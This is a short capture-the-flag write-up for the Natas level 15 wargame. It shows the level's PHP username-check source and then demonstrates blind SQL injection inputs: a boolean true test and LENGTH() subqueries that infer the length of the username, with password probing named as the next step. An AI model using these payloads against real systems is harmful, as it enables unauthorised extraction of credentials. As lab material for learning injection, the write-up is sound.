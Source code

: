 ```markup
    if($res) {
    if(mysql_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
<input type="submit" value="Check existence" />
</form>
<? } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

blind sql injection

```text
Input  : natas16
Query  : SELECT * from users where username="natas16"
Result : true
```

```text
Input  : natas16" AND "1"="1
Query  : SELECT * from users where username="natas16" AND "1"="1"
Result : true
```

A good next thing to know whould be the password lenght. Lets first test the username lenght.

Testing username lenght  
We should get a 'This user exists.' if the lenght of username is 7.

```text
input  : natas16" AND (SELECT LENGTH(username) FROM users WHERE username="natas16" LIMIT 1)=1#
Query  : SELECT * from users where username="natas16" AND (SELECT LENGTH(username) FROM users WHERE username="natas16" LIMIT 1)=1#
Result : false
```

```text
input  : natas16" AND (SELECT LENGTH(username) FROM users WHERE username="natas16" LIMIT 1)=7#
Query  : SELECT * from users where username="natas16" AND (SELECT LENGTH(username) FROM users WHERE username="natas16" LIMIT 1)=7#
Result : true
```
